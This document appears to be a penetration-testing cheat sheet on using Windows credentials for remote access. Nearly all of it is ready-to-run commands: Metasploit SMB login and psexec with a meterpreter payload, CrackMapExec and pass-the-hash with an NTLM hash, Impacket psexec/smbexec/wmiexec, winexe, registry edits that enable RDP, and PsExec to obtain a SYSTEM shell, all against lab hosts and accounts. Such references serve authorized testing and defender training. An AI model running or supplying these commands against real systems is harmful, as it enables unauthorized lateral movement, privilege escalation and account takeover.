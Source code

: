 # Windows - Using credentials

## Metasploit - SMB
```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain CSCOU  
set SMBUser jarrieta
set SMBPass nastyCutt3r
services -p 445 -R  
run
creds
```

## Metasploit - Psexec
Note: the password can be replaced by a hash to execute a `pass the hash` attack.
```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser jarrieta
set SMBPass nastyCutt3r
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec (Integrated to Kali)
```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d CSCOU -u jarrieta -p nastyCutt3r
python crackmapexec.py 10.9.122.5 -d CSCOU -u jarrieta -p nastyCutt3r -x whoami
```

## Crackmapexec (Pass The Hash)
```
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe (Integrated to Kali)
```python
winexe -U CSCOU/jarrieta%nastyCutt3r //10.9.122.5 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py (Impacket)
```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python smbexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
python wmiexec.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
```

## RDP Remote Desktop Protocol (Impacket)
```
python rdpcheck.py CSCOU/jarrieta:nastyCutt3r@10.9.122.5
rdesktop -d CSCOU -u jarrieta -p nastyCutt3r 10.9.122.5
```
Note: you may need to enable it with the following command
```
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
```
or with psexec(sysinternals)
```
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

## Netuse (Windows)
```
net use \\ordws01.cscou.lab /user:CSCOU\jarrieta nastyCutt3r
C$
```

## Runas (Windows - Kerberos auth)
```
runas /netonly /user:CSCOU\jarrieta "cmd.exe"
```

## PsExec (Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) )
```
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u CSCOU\jarrieta -p nastyCutt3r cmd.exe -s  # get System shell
```


## Thanks
 - [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
 - [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
 - [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
